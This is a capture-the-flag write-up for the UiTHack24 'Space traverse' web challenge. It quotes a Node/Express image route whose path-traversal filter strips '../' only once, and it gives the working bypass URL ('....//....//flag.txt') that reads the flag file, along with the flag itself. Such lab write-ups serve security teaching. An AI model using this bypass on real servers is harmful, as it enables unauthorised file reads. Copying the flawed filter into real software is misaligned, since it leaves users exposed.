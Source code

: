 # Space traverse

In the search for a new planet to inhabit, we have found a couple different candidates. I have collected images of them, so that you can help me decide which one to go to.

https://uithack.td.org.uit.no:8001

[⬇️ space_traversal.zip](./space_traversal.zip)

# Writeup

Looking at [app.js](./app/app.js) we can clearly see that the only place to make it load external files are in the `/images` path.

```javascript
app.get("/images", (req, res) => {
  try {
    // No path traversal
    var image = req.query.image.replace(/\.\.\//g, "");
    var image_path = path.join(__dirname, "static/images/", image);
  } catch (err) {
    console.log(err);
    res.status(404).send("Invalid request");
    return;
  }

  fs.stat(image_path, (err, _) => {
    if(err == null){
      res.sendFile(image_path);
    } else {
      res.status(404).send(image_path + " does not exist");
    }
  });
});
```

This allows you to use `/images/?image=<FILE>` to send any files. The paths is created by appending whatever you put in there to the path. So to get the flag we need to get it to load: `../../flag.txt`. But it removes `../`, as the replace is going from left to right and never repeating we can trick it by adding a extra `..` and `/`. So giving `....//` it will remove `../` from the middle and continue to the right. Leaving behind a `../` we can use. So the solution was: 

https://uithack.td.org.uit.no:8001/images/?image=....//....//flag.txt

Which returned the flag:

```
UiTHack24{n0t_th3_tr4v3rse_1_w45_3xp3c71ng}
```